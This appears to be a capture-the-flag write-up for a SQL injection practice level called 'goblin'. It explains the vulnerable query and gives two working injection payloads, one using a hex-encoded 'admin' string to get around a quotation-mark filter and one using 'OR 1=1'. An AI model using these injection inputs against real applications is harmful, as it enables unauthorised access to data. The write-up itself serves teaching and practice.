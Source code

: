 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 3
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/d35d9a32-55a6-4752-a4d4-955971ba3131)

We are provided with the SQL query:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no={$_GET[no]}
```

This time the application blocks quotation marks. It also does not directly insert user input into the `id` field.

The code also performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello {$result[id]}`
2. `if($result['id'] == 'admin')`: It then checks if the `id` is set to `admin`. If yes, it prints the flag.

We want the first conditional statement to be skipped and the second one to be executed.

There are two methods.

### Method 1

In order to make the result of the first query `False`, we can provide the following URI:

```
?no=0
```

The resultant query then becomes:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0
```

Since no=0 is always false, the result of the `AND` operation will always be `False`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/130b241a-088d-4187-86fb-5944f1ff0503)

As expected, the `Hello {$result[id]}` message isn't printed.

In order to execute the second conditional statement, we can provide the following input:

```
?no=0 OR id=0x61646d696e
```

We are providing the Hexadecimal representation of the `admin` string.

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=0 OR id=0x61646d696e
```

The result of the first conditional is already `False` and because we just the `id` field to `admin`, the flag will be printed.

![3](https://github.com/Kunull/Write-ups/assets/110326359/f349d379-8a99-4e6f-b4fa-6c9b2c08e527)


### Method 2

If we provide the following input:

```
?no=no
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no
```

The result will always be `True` since any column (`no`) compared with itself is always true.

Next, if we add an `OR` command as follows:

```
?no=no OR 1=1 ORDER BY id;
```

The resultant query will be:

```sql
SELECT id FROM prob_goblin WHERE id='guest' AND no=no OR 1=1 ORDER BY id;
```

This will print out all the rows as 1=1 is always true and anything `OR` with true is true.

![4](https://github.com/Kunull/Write-ups/assets/110326359/dbfef2c6-67a6-4d7a-9403-8a3a18bae228)
